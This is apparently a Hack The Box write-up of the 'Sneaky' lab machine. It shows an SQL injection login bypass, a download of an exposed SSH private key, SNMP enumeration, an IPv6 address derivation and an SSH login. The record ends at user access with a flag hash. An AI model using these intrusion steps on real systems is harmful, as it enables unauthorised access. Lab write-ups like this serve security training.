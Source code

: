 # Sneaky
#### 10.10.10.20

```{r, engine='bash', count_lines}
nmap 10.10.10.20

PORT   STATE SERVICE
80/tcp open  http
```

The website shows that its under construction

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/is_vuln_if.png "Is vuln if")


Dirbuster Initiate!

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/is_vuln_if.png "Is vuln if")

Well ofcourse, its under **dev**elopment

We are greeted by a Login screen

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/is_vuln_if.png "Is vuln if")


Whats the autoresponse when we see a poorly made login page ?

Yes **' or '1' = '1**

Simple sql injection. Seems legit

After the login we get sjuicy stuff
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/is_vuln_if.png "Is vuln if")

Lets make a note of the info:

- name: admin
- name: thrasvilous
- RSA Private key
- We are No-one

Lets wget the RSA key

And because its a Private SSH key, we change its perms

```
root@kali:~/Hackthebox/Sneaky# wget http://10.10.10.20/dev/sshkeyforadministratordifficulttimes
--2017-11-07 17:24:48--  http://10.10.10.20/dev/sshkeyforadministratordifficulttimes
Connecting to 10.10.10.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1675 (1.6K)
Saving to: ‘sshkeyforadministratordifficulttimes’

sshkeyforadministratordifficulttimes  100%[=======================================================================>]   1.64K  --.-KB/s    in 0s      

2017-11-07 17:24:48 (120 MB/s) - ‘sshkeyforadministratordifficulttimes’ saved [1675/1675]

root@kali:~/Hackthebox/Sneaky# mv sshkeyforadministratordifficulttimes adminssh.key

root@kali:~/Hackthebox/Sneaky# chmod 600 adminssh.key 

```

**BUT!!!**

We dont have a port 22 (ssh) open on this box. Maybe it was setup on a different port.

Lets nmap all the ports 

After spending millions of years completing the nmap we see that there is no other port open.

![Alt test](https://media.giphy.com/media/l46CbAuxFk2Cz0s2A/giphy.gif)


Hold up! we found something else though

Port 161

Investigate Further

We get shit tons of info

```
nmap -sS -sU -p 161 -T4 -A 10.10.10.20

161/udp open   snmp    SNMPv1 server; net-snmp SNMPv3 server (public)

snmp-interfaces: 
|   lo
|     IP address: 127.0.0.1  Netmask: 255.0.0.0
|     Type: softwareLoopback  Speed: 10 Mbps
|     Status: up
|     Traffic stats: 129.30 Kb sent, 129.30 Kb received
|   eth0
|     IP address: 10.10.10.20  Netmask: 255.255.255.0
|     MAC address: 00:50:56:aa:35:f3 (VMware)
|     Type: ethernetCsmacd  Speed: 4 Gbps
|     Status: up
|_    Traffic stats: 45.08 Mb sent, 41.13 Mb received
| snmp-netstat: 
|   TCP  127.0.0.1:3306       0.0.0.0:0
|_  UDP  0.0.0.0:161          *:*


```
We are SURE that there is a ssh port open, but we cant find it here...

Maybe its ipv6

Let me check what ipv6 we get for the openvpn

```
inet 10.10.14.52  netmask 255.255.254.0  destination 10.10.14.52
inet6 dead:beef:2::1032  prefixlen 64  scopeid 0x0<global>
```

A wise gentelman from stack overflow helped us 
![Alt test](https://stackoverflow.com/questions/27693120/convert-from-mac-to-ipv6/27693666#27693666)

A little bit or "Trying Harder" and knowing that our local prefix should be dead:beef we get something like this

```
dead:beef::250:56ff:feaa:35f3 (HAVE TO CHECK THIS)
```

lets try and connect to it via ssh and out key

```
root@kali:~/Hackthebox/Sneaky# ssh -6 dead:beef::250:56ff:feaa:35f3
The authenticity of host 'dead:beef::250:56ff:feaa:35f3 (dead:beef::250:56ff:feaa:35f3)' can't be established.
ECDSA key fingerprint is SHA256:KCwXgk+ryPhJU+UhxyHAO16VCRFrty3aLPWPSkq/E2o.
Are you sure you want to continue connecting (yes/no)? 
```

Say Whaaaaat!!!!

Time to get rocking

We have the key, the username is thrasivoulos , lets connect

```
root@kali:~/Hackthebox/Sneaky# ssh -6 -i adminssh.key thrasivoulos@dead:beef::250:56ff:feaa:35f3
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-75-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Nov  7 14:33:29 EET 2017

  System load:  0.0               Processes:           181
  Usage of /:   9.8% of 18.58GB   Users logged in:     1
  Memory usage: 23%               IP address for eth0: 10.10.10.20
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Your Hardware Enablement Stack (HWE) is supported until April 2019.
Last login: Tue Nov  7 14:33:30 2017 from dead:beef:2::1032
thrasivoulos@Sneaky:~$ 

```

**user.txt**
```
thrasivoulos@Sneaky:~$ cat user.txt
9fe14f76222db23a770f20136751bdab
```

_Mission: Root_



**_shellz_**

